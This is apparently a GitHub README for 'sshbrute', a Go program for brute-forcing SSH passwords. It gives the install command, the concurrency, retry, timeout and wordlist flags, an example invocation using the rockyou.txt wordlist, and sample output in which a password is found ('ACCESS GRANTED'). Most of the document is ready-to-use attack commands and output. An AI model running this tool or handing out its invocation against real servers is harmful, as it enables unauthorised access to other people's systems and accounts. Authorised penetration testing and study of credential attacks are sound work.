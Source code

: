 # sshbrute

This is a program written in Golang for ssh brute force attacks, needs improvements but works well and is fast.

```sh
go get github.com/UlisseMini/sshbrute
```

```txt
Usage of sshbrute:
  -d    debug mode, print logs to stderr
  -g int
        how meny goroutines should be making concurrent connections (default 16)
  -retry int
        How meny times to retry password on a timeout (default 3)
  -t duration
        Set the timeout depending on the latency between you and the remote host. (default 400ms)
  -w string
        indicate wordlist file to use (default "wordlist.txt")
```

```sh
sshbrute username@localhost:2222 -t=300ms -w rockyou.txt
```

will give you some nice colored output where FAIL is red and ACCESS GRANTED is green and the password try is blue. (not on windows because it sucks lol)
```
target: username@localhost:2222
timeout: 200ms
wordlist: rockyou.txt
123456 FAILED
12345 FAILED
123456789 FAILED
password FAILED
iloveyou FAILED
princess FAILED
1234567 FAILED
rockyou FAILED
12345678 FAILED
abc123 ACCESS GRANTED
```

If the target sshd is using "PasswordAuthentication no" it won't work.
